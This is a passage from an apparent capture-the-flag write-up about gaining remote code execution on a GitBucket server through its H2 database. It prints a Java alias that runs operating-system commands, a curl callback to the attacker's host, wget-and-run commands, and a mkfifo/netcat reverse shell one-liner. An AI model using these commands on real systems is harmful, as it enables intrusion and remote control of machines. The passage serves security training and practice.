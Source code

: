 My assumption initially was this was using MySQL or something similar, so I tried to get the version and got an error I have never seen before: `org.h2.jdbc.JdbcSQLSyntaxErrorException: Function "VERSION" not found; SQL statement: select version() [90022-199]`. We now know that this database doesn't have the version function and returned a java looking error. To break down into parts, **org.h2** is effectively a reverse domain name, org typically being used for open-source project, h2 referring to the library in use here. **jdbc** is used for connections and given the following syntax error it is reasonable to assume this error means "query failed".

[https://www.h2database.com/html/functions.html?highlight=version&search=version#firstFound](https://www.h2database.com/html/functions.html?highlight=version&search=version#firstFound) contains the version function within h2. This took more time than I want to admin to find. The function in question is H2VERSION().

![h2 database version in gitbucket]({{ page.img }}_10_8080_h2version.png)

Now searching this up in exploit-db there is an exploit for RCE using java but I decided to use an older exploit since it was easier to execute. [https://www.exploit-db.com/exploits/45506](https://www.exploit-db.com/exploits/45506) goes through creating an alias which executes a supplied command using runtime. 

```java
CREATE ALIAS EXECVE AS $$ String execve(String cmd) throws java.io.IOException { java.util.Scanner s = new java.util.Scanner(Runtime.getRuntime().exec(cmd).getInputStream()).useDelimiter("\\\\A"); return s.hasNext() ? s.next() : "";  }$$;
```

Then I can check if the rce works by calling the new alias and supplying a command, such as id.

![gitbucket rce through h2 database]({{ page.img }}_11_8080_h2_rce_id.png)

Code execution achieved. Next I check if the commands from the database can reach a hosted server of mine.

```
CALL EXECVE('curl http://10.10.14.7:8081/h2curl')


httpserver
Serving HTTP on 0.0.0.0 port 8081 (http://0.0.0.0:8081/) ...
10.10.11.33 - - [19/Sep/2024 14:05:51] code 404, message File not found
10.10.11.33 - - [19/Sep/2024 14:05:51] "GET /h2curl HTTP/1.1" 404 -
```

I do some other testing to try and smuggle my own key into the .ssh directory but something wasn't working so I opted to make a shell script and run it.

```bash
shell.sh

rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|bash -i 2>&1|nc 10.10.14.7 7777 >/tmp/f
```

```java
CALL EXECVE('wget http://10.10.14.7:8081/shell.sh')
CALL EXECVE('bash shell.sh')
```
